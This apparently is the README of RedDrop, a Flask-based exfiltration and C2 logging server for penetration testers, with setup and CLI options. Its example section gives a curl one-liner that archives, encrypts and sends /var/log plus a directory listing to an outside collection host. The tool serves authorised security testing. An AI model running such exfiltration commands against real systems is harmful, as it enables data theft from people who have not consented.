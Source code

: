 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
[Check out the accompanying MaverisLabs Blog Post Here!](https://medium.com/maverislabs/data-exfiltration-using-reddrop-13bcbad7acb0?source=friends_link&sk=34320be3746773a82d065d03ea05111b)

RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)
- [Authorization Rules](docs/AuthorizationRules.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired


## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Utilize the [Authorization Rules](docs/AuthorizationRules.md) feature of RedDrop to drop requests which do not meet your criteria. 
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default:
                        0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML
                        (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can
                        be used more than once to define multiple
                        process_list functions. Use this flag in
                        the order in which you wish to process
                        received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on
                        detected data. This option is enabled by
                        default, but should be disabled (--no-
                        auto-process) when you receive output you
                        don't expect. Such as in the case of
                        Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the
                        process with the `-p` flag. (default:
                        True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the
                        server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt.
                        (default: EncryptMe)
  -r AUTHORIZATION_RULES, --authorization_rules AUTHORIZATION_RULES
                        Specify an Authorization Rule to deny
                        requests which do not match the provided
                        Key and Regex value pair. Specified as
                        <Key>=<Regex>. (default: None)
  -t TAGS, --tag TAGS   Tag data received during this session in the logs as well as the directory files are uploaded to. Example:
                        -t log4j -t acme.org (default: None)
  --tls-keyfile GUNICORN.KEYFILE
                        Enables TLS Support. (Production Only) The path to a TLS key file (default: None)
  --tls-certfile GUNICORN.CERTFILE
                        Enables TLS Support. (Production Only) The path to a TLS cert file (default: None)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
